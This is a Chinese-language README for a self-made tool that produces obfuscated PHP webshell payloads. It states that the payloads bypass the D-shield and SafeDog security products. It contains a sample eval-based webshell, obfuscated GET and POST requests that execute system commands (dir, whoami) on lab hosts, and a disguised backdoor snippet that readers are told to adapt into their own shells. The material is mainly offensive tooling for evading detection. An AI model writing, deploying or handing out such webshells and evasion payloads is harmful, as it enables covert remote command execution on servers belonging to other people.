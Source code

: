 # 前言

复习PHP命令执行，免杀是躲不掉的；所以看了很多巨佬的干货后，总结了下经验，写了这么一个工具

第一次发GitHub....说明文档存在缺陷或工具存在BUG请及时提出~

由于用到的冷门Py包太多，避免环境问题就直接打包成了EXE，直接运行就好（非常幼稚的程序）

# 结果

合理使用工具生成的Payload，是能过最新的D盾和安全狗的

![image-20211123144015380](https://wwf-image.oss-cn-hangzhou.aliyuncs.com/自写工具/PHP下WebShell混淆Payload/1.png)

# 功能

生成常规字符串，但是由**非敏感字符、非边界符与非字母**经过异或、或、与、取反运算后得到；方便你进行各种骚操作~

小Tips：

```
PHP5的免杀十分灵活，在此不做多解释，参考链接全都是。

PHP7重点在于对$_GET等这类极度敏感的变量隐藏，而不是函数的隐藏（也没有必要）

函数执行基本围绕:

(可变函数名)(参数)
${可变函数名}[参数]
${可变函数名}{参数}
...
你当然可以使用注释提取，本地变量注册等精湛技艺，或者安心找更冷门的回调函数...
```

一个小示例，测试马

```php
<?php
eval($_GET['cmd']);
?>
```

然后可以用工具根据你输入的命令与参数，生成混淆后的形参

```http
http://192.168.85.139/?cmd=${("%5E%5E%40%0B"^"%01%19%05_")}{%ff}(("%04"|"%60").("%60"|"%09").("%12"|"%60"));&%ff=system
```

实际上PHP执行的命令就是

> eval(system(dir);)

![image-20211123160641617](https://wwf-image.oss-cn-hangzhou.aliyuncs.com/自写工具/PHP下WebShell混淆Payload/2.png)

同时你完全可以把它改成一个马~比如:

```php
$a=urldecode("%7B%7B%5C_")^urldecode("%24%3C%19%0B");
$b=${$a}{'0xff'};
eval("\t".$b);
```

# 使用注意

--- ---

A模式根据你的命令与参数生成完整的混淆参数，B模式单纯对某个字符串进行混淆

-- ---

长格式类似

```
('aaa'^'bbb')
```

短格式类似

```
('a'^'b').('b'^'c')
```

--- ---

取反必须为`not`和`~`

--- ---

由于全随机性异或选取（不可避免），会导致一定程度的错误生成；所以在你正式使用之前请务必本地测试效果后再用！

--- ---

选择下标从1开始

--- ---

最后，因为时间匆忙没有做完美的异常处理，一旦造成任何错误（比如只有18种但你输了20）请强制退出再重开-=-

# 示例

（具体改成什么样的马请发挥你的想象，嘿嘿）

还是这个测试马

```php
<?php
eval($_GET['cmd']);
?>
```

之前介绍了GET方法，假如要使用POST呢，比如要执行system(whoami)

生成这个

```
${("%5E%5E4-/"^"%01%0E%7B~%7B")}{%ff}(("7"|"%60").("%60"|"%08").("/"|"%60").("%21"|"%40").("%60"|"%0D").("%60"|"%09"));&%ff=system
```

![image-20211123215215046](https://wwf-image.oss-cn-hangzhou.aliyuncs.com/自写工具/PHP下WebShell混淆Payload/3.png)

然后改成这样，通过BP发包

```http
POST /?cmd=${("%5E%5E4-/"^"%01%0E%7B~%7B")}{%ff}(("7"|"%60").("%60"|"%08").("/"|"%60").("%21"|"%40").("%60"|"%0D").("%60"|"%09")); HTTP/1.1
Host: 192.168.85.128
...
Content-Length: 10

%ff=system
```

命令执行成功

![image-20211123220213671](https://wwf-image.oss-cn-hangzhou.aliyuncs.com/自写工具/PHP下WebShell混淆Payload/4.png)







# 参考链接

[独特的免杀思路](http://uuzdaisuki.com/2021/05/11/webshell%E5%85%8D%E6%9D%80%E7%A0%94%E7%A9%B6php%E7%AF%87/)

[PHP7后的免杀思路](https://www.anquanke.com/post/id/193787)

[较全的PHP5、PHP7免杀浅谈](https://www.freebuf.com/articles/network/279563.html)

[国光的PHPWebshell免杀总结](https://www.sqlsec.com/2020/07/shell.html#toc-heading-24)

[Windows与Linux的Apache安装](https://cloud.tencent.com/developer/article/1698069)

[P神的无字母数字WebShell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html?page=1#reply-list)

[P神的无字母数字Webshell续](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html?page=1#reply-list)

还有一些博客在查阅资料时疏于记录，但同样给予了重大改进；在此表达真挚的感谢！